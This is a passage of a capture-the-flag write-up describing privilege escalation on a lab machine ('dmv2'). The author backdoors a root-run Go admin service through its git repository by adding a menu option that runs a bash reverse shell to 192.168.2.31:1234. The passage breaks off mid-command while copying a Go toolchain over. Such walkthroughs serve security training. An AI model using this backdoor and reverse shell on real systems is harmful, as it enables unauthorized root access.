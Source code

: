 ## Privilege escalation

When I explore the server, and I use the `ps` command:
```shell
$ developerdmv@dmv2:~$ ps aux
root  1938  ...  3140 ?   Ss   00:28   0:00 /bin/bash /etc/dmvservice.sh
root  1950  ...  2220 ?   Sl   00:28   0:00 ./root/admin/admin
```
When I read the `dmvservice.sh` file:
```shell
#!/bin/bash
chmod +x /root/admin/admin && ./root/admin/admin
```
Then I can see that the root user is running the service on TCP port `4545`, and in the way that the `site.git` works to update the website, then the `admin.git` probably update the `admin` files, but to test it, first I copy the `ssh` key to user `developerdmv`, and I created a file with `vim` in `~/.ssh/id_rsa`. When I create a new directory in `~/test`, and I run the `git clone` command, and I use the `ssh` private key that I copied previously:
```shell
developerdmv@dmv2:~/test$ git clone \
> ssh://127.0.0.1/home/developerdmv/admin \
> --config core.sshCommand="ssh -i ~/.ssh/id_rsa"
```
And I check the created files:
```shell
developerdmv@dmv2:~/test$ ls -la admin
...
drwxrwxr-x 8 developerdmv developerdmv    4096 Feb  9 02:30 .git
-rw-rw-r-- 1 developerdmv developerdmv 3196310 Feb  9 02:30 admin
-rw-rw-r-- 1 developerdmv developerdmv      26 Feb  9 02:30 go.mod
-rw-rw-r-- 1 developerdmv developerdmv    1587 Feb  9 02:30 main.go
```
Then I can see that the service is a compiled `Golang` program, when I look at the `main.go` function, then I can see from lines 43 to 47:
```go
...
43  switch intChoice {
44  case 1:
45    out, cmdErr = execCommand("cd /var/www/html/ && git checkout . &&
      git pull origin master")
46  case 2:
47    out, cmdErr = execCommand("cd /root/admin/ && git checkout . &&
      git pull origin master && systemctl restart dmvadmin")
...
```
And with that, I can confirm that if I push a commit to `admin.site`, then I could update it in the `/root/admin` directory, and the service will be restarted with the change that I make, when I modify the `main.go` code with `Vim`, and I add the following `case 3`:
```go
...SNIPPED...
  c.Write([]byte("3) Reverse shell\n"))
...SNIPPED...
  case 3:
    out, cmdErr = execCommand("bash -c 'bash -i >&
      /dev/tcp/192.168.2.31/1234 0>&1'")
...SNIPPED...
```
Then now I need to compile it, but I can not find the `Golang` binaries on the target server, when I see the `go.mod` file then I can see that it uses `go 1.14`, when I follow the [Golang installation](https://go.dev/doc/install), and I download `version 1.14` on my local machine:
```shell
$ wget https://go.dev/dl/go1.14.linux-amd64.tar.gz
```
And I send it to the target machine with the `scp` command:
```shell
$ scp -i id_rsa go1.14.linux-amd64.tar.gz \
```